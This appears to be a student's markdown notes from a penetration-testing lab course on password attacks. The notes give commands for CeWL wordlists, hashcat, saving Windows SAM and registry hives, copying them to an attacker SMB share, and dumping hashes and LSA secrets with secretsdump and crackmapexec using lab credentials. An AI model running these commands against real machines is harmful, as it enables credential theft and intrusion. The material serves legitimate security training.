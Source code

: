 ### Hashcat also have existing rules
`ls /usr/share/hashcat/rules/`

We can use [CeWL](https://github.com/digininja/CeWL) to crawl websites for company passwords. 
We can now use another tool called CeWL to scan potential words from the company's website and save them in a separate list. We can then combine this list with the desired rules and create a customized password list that has a higher probability of guessing a correct password. We specify some parameters, like the depth to spider (-d), the minimum length of the word (-m), the storage of the found words in lowercase (--lowercase), as well as the file where we want to store the results (-w).

`cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist`

Check if you can use any other service to brute force. Add more threads to hydra. 

to crack zip pws: `sudo fcrack -u -D -p ./mut_password.list Notes.zip`

# Attacking SAM
SAM is a file that stores users, groups etc on Windows machines. It's used by services like Kerberos authentication or NTLM authentiation.
### Open powershell as administrator on target
```poweshell
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

To transfer files we can use `impacket`
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/`

Then move the data:
```powershell
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```

Dumping hashes with `impackets`
`python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
Though we cannot dump it without boot key


# Dumping LSA Secrets Remotely
`crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`

`crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

# Transfering files:
`sudo impacket-smbserver share -smb2support /tmp/smbshare`
`mv <file to move> \\<ip>\share`
or mount
`net use d: \\<IP>\share (potantially /user:test test)`
in that case:
`sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

Would you like to do a proper brute force:
`hashcat -a3 -m1000 nt_hash.txt`

Really good to use crackmapexec:
`crackmapexec smb 10.129.202.137 --local-auth -u Bob -p "HTB_@cademy_stdnt"'!'"" --sam (or lsa)`